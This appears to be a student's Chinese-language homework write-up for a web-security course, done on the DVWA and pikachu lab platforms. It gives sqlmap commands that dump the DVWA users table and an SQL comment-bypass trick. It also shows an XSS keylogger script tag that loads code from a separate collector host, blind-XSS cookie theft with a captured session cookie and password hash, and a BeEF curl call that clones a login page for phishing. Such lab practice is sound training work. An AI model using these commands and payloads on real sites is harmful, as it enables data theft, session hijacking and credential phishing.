# 作用1：
使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。
- 首先将dvwa的sql-injection使用burp抓包，然后让数据包内容复制到demo.txt文档，并保持在新建的file目录下

```
指令：python sqlmap.py -r file/demo.txt" --batch --dbs
```


```
指令：python sqlmap.py -r file/demo.txt" --batch --tables -D dvwa
```

```
指令：python sqlmap.py -r file/demo.txt" --batch --columns -T users -D dvwa
```

```
指令：python sqlmap.py -r file/demo.txt" --batch -D dvwa -T users -C last_name,password --dump
```


# 作业2：
练习课件上给出的SQL注入绕过方式
- 练习收获：发现了如果#，空格和斜杠都被限制使用的情况下，--'可以代替，实现sql语句的闭合

# 作业3：
## 1.使用pikachu平台练习XSS键盘记录
```
1. 将恶意文件的js代码，插入dvwa的网站中
<script src="http://192.168.0.90:8081/pkxss/rkeypress/rk.js"></script>

2. 成功后，在pikachu的后台，可以看到插入到dvwa代码的页面上，所有的键盘记录
```



## 2.前台XSS盲打攻击获取cookie
```
目标设备：192.168.0.90:8083
恶意服务器：192.168.0.90：8081

1. 将恶意文件的js代码，提交到xss盲打后台
<script>document.write('')</script>

2.在192.168.0.90:8083登录后台后，代码自动执行，在192.168.0.90:8081的管理后台能看到收集到的cookie信息
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=7k44l2c1evhp7potr0shc98mmc

3. 在chrome（新浏览器）上打开(http://192.168.0.90:8083/vul/xss/xssblind/admin_login.php)

4. 使用cookie editor 填写收集到的cookie信息，登录

5. 登录成功，试验成功
```



## 3. 使用beef制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码
- 步骤一：克隆网站
```
curl -H "content-Type: application/json; charset=UTF-8" -d '{"url":"http://192.168.0.88:8082/login.php", "mount":"/clone_dvwa"}' -X POST http://192.168.0.99:3000/api/seng/clone_page?token=3a6f9f84c50de06a392055d6d8f928974de02787

```


- 登录 -> http://192.168.0.99:3000/clone_bl 成功



- 获取账号密码

